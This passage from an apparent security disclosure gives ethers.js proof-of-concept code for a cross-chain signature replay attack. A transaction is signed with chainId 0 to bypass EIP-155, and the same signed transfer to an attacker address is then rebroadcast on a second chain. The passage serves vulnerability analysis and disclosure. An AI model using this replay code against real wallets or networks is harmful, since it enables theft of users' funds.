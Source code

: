     // Craft a transaction for Chain A, but sign it as if it's chain-agnostic (chainId: 0)
    const nonceOnA = await victimWalletA.getTransactionCount();
    const txToSign = {
        nonce: nonceOnA,
        gasPrice: ethers.utils.parseUnits('10', 'gwei'), // Example gas price
        gasLimit: 21000,
        to: attackerAddress,
        value: ethers.utils.parseEther('0.01'), // Amount to transfer
        chainId: 0 // Key: Disables EIP-155 protection
    };
    
    const signedTxHexString = await victimWalletA.signTransaction(txToSign);
    console.log(`Signed transaction (Chain A, chainId:0): ${signedTxHexString}`);
    // This transaction, if broadcast to Chain A, would likely be rejected by modern nodes
    // unless they are specifically configured to accept non-EIP-155 transactions.
    // For this PoC, we assume it *could* be processed or the signature is obtained by other means.
    ```
    
3. Hypothetical Execution on Chain A:
    
    If signedTxHexString were broadcast to Chain A and Chain A accepted such transactions, it would transfer 0.01 ETH from the victim to the attacker on Chain A.
    
4. Replay on Chain B (Attacker):
    
    The attacker takes the exact same signedTxHexString.
    
    ```JavaScript
    
    // Connect to Chain B (e.g., local devnet configured to accept non-EIP-155)
    const providerB = new ethers.providers.JsonRpcProvider('YOUR_LOCAL_DEVNET_RPC_URL');
    // const victimWalletB = new ethers.Wallet(victimPrivateKey, providerB); // Not needed for broadcast
    
    // Attacker broadcasts the SAME signed transaction to Chain B
    try {
        const txResponseB = await providerB.sendTransaction(signedTxHexString);
        console.log(`Transaction replayed on Chain B: ${txResponseB.hash}`);
        await txResponseB.wait();
        console.log('Replay transaction confirmed on Chain B.');
        // Check victim's and attacker's balance on Chain B
    } catch (error) {
        console.error('Error replaying transaction on Chain B:', error.message);
        // This might fail if Chain B strictly enforces EIP-155 or if nonce/balance is off.
    }
    ```
    
    If Chain B's nodes accept non-EIP-155 transactions (or transactions signed with `chainId: 0`), the victim's nonce on Chain B matches `nonceOnA` (e.g., if it's the victim's first transaction on Chain B), and the victim has at least 0.01 ETH on Chain B, the transaction will execute. The attacker receives 0.01 ETH from the victim on Chain B as well. This demonstrates the core risk of transactions not being cryptographically tied to a specific chain.
    

**PoC 2: Smart Contract Signature Replay (Cross-Chain)**
